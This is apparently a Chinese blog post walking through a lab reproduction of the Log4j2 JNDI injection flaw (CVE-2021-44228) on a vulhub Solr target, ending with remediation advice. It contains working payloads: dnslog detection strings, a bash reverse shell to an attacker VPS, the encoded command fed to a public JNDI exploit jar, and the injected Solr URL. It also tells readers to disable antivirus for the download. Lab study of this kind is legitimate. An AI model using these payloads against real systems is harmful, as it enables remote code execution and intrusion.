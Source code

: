 ```yaml
---
layout:     post
title:      Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
subtitle:   纸上得来终觉浅，绝知此事要躬行
date:       2023-7-20
author:     xuoneyuan
header-img: 
catalog: 	  false
tags:
    - 漏洞复现
---
```

### 前言
做这个漏洞复现的主要原因是因为在看微信公众号文章的时候看到了这么一张图，第一眼看的时候就没绷住，后来在空间看到一个福建来的信安天才少年发了说说就是这张图，感觉有点意思，就想着自己也来复现一下

![每次看都绷不住]({{site.baseurl}}/img-post/l-13.png)

这里我翻译一下：
- ldap://：这表示URL使用LDAP协议进行通信
- chinaran404：这是LDAP服务器的主机名或IP地址
- /loveme：这是LDAP服务器内特定资源的路径，可能是一个目录、条目或其他对象

这不禁让我想起了这张图（知乎看到的，侵删）

![真的是一个悲伤的故事]({{site.baseurl}}/img-post/l-15.png)

好了言归正传，我们来分析一下这个漏洞

### 漏洞分析
#### log4j2是什么
log4j2是apache下的java应用常见的开源日志库，是一个就Java的日志记录工具。在log4j框架的基础上进行了改进，并引入了丰富的特性，可以控制日志信息输送的目的地为控制台、文件、GUI组建等，被应用于业务系统开发，用于记录程序输入输出日志信息
#### JNDI是什么
JNDI，全称为Java命名和目录接口（Java Naming and Directory Interface）,是SUN公司提供的一种标准的Java命名系统接口，允许从指定的远程服务器获取并加载对象。JNDI相当于一个用于映射的字典，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务
#### log4j2远程代码执行漏洞原理
log4j2框架下的lookup查询服务提供了{}字段解析功能，传进去的值会被直接解析。例如${java:version}会被替换为对应的java版本。这样如果不对lookup的出栈进行限制，就有可能让查询指向任何服务（可能是攻击者部署好的恶意代码）\
攻击者可以利用这一点进行JNDI注入，使得受害者请求远程服务来链接本地对象，在lookup的{}里面构造payload，调用JNDI服务（LDAP）向攻击者提前部署好的恶意站点获取恶意的.class对象，造成了远程代码执行（可反弹shell到指定服务器）

示意图:
![1]({{site.baseurl}}/img-post/l-17.png)
#### 漏洞等级
高危\
官方 CVSS 评分 10.0
#### 影响版本
Apache Log4j2 2.x <= 2.14.1\
Apache Log4j2 2.15.0-rc1（补丁绕过）
### 漏洞复现
#### 环境搭建
这里我使用的是vulhub，利用docker启动关闭环境
没有vulhub的可以用这个靶场：https://vulfocus.cn/#/dashboard
没有docker的先下载
![1]({{site.baseurl}}/img-post/l-1.png)
vulhub的下载
~~~
wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip
unzip vulhub-master.zip
cd vulhub-master
~~~
然后进入需要开启的漏洞路径
~~~
cd vulhub-master/xxx/xxx
docker-compose up -d
~~~
![1]({{site.baseurl}}/img-post/l-2.png)
端口是8983，我们接下来访问http://192.168.xxx.xxx:8983/solr/#/
![1]({{site.baseurl}}/img-post/l-3.png)
#### 漏洞检测
官方POC(二选一）
~~~
${jndi:ldap://${sys:java.version}.xxx.dnslog.cn}
${jndi:rmi://${sys:java.version}.xxx.dnslog.cn}
~~~
利用DnsLog平台检测dns回显，查看是否有漏洞存在，获取一个子域名
![1]({{site.baseurl}}/img-post/l-4.png)
接着我们就可以对目标网站进行测试了，访问：http://192.168.xxx.xxx:8983/solr/admin/cores?${jndi:ldap://${sys:java.version}.xxxxxx.dnslog.cn }
![1]({{site.baseurl}}/img-post/l-5.png)
返回，刷新后得到数据
![1]({{site.baseurl}}/img-post/l-6.png)

#### 漏洞利用
反弹shell的命令
~~~
bash -i >& /dev/tcp/vps_ip/6666 0>&1
~~~
接着进行编码，对命令进行base64加密即可
![1]({{site.baseurl}}/img-post/l-18.png)
接下来利用现成的JNDI注入工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，项目地址：https://github.com/welk1n/JNDI-Injection-Exploit
（注意下载的时候要关掉一切防火墙和实时保护）
最迟到这里你的kali攻击机就要启动了，执行命令
~~~
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC92cHNfaXAvNjY2NiAwPiYxCg==}|{base64,-d}|{bash,-i}" -A 192.168.xxx.xxx
~~~
运行后终端如图：
![1]({{site.baseurl}}/img-post/l-7.png)
这里已经一键部署好了RMI和LDAP服务的站点，并给出了路径，我选择用ldap，JDK1.8的版本为ldap://192.168.xxx.xxx:1389/Exploit，JDK1.7的版本为：ldap://192.168.xxx.xxx:1389/Exploit 这两个版本任选一个都行
再打开一个终端开启nc
![1]({{site.baseurl}}/img-post/l-8.png)
把工具生成的payload插入到action后面
~~~
http://192.168.xxx.xxx:8983/solr/admin/cores?action=${jndi:ldap://192.168.xxx.xxx:1389/xxxxxx}
~~~
![1]({{site.baseurl}}/img-post/l-9.png)

再次返回kali我们可以看到nc成功反弹shell，但是我这里有一个小问题，就是shell没有反弹回来，查了一下csdn的一个大佬说他也反弹不回来，换了一个靶场就好了，所以可能是vulhub这个靶场的问题，我试了好几个端口比如6969，8888都没有成功反弹shell，这个时候已经凌晨2：40了，于是我决定先睡觉（~~没错我就是懒狗~~）

反弹成功的回显是这样的

![1]({{site.baseurl}}/img-post/l-11.png)

本来到这里就应该结束了，但是我还是发现一个问题，就是在JNDI注入工具上决定了你是黑客大佬还是脚本小子，如果只会用工具，那么小学生都能顺利完成这个漏洞复现（问题是我已经大学了），在JNDI脚本运行上我又出了问题

![1]({{site.baseurl}}/img-post/l-12.png)

我尝试了一下网上的方法，说是maven打包出现了问题，我照他的方法重新配置了起步依赖，但是没有用，这个事情充分说明了不会编程的hacker就是个伪命题（你给我去学Java、golang）

![1]({{site.baseurl}}/img-post/l-16.png)

#### 修复建议
1. 设置log4j2.formatMsgNoLookups=True，相当于直接禁止lookup查询出栈，也就不可能请求到访问到远程的恶意站点
2. 对包含有"jndi:ldap://"、"jndi:rmi//"这样字符串的请求进行拦截，即拦截JNDI语句来防止JNDI注入
3. 对系统进行合理配置，禁止不必要的业务访问外网，配置网络防火墙,禁止系统主动外连网络等等
4. 升级log4j2组件到新的安全的版本

### 彩蛋
![1]({{site.baseurl}}/img-post/l-14.png)

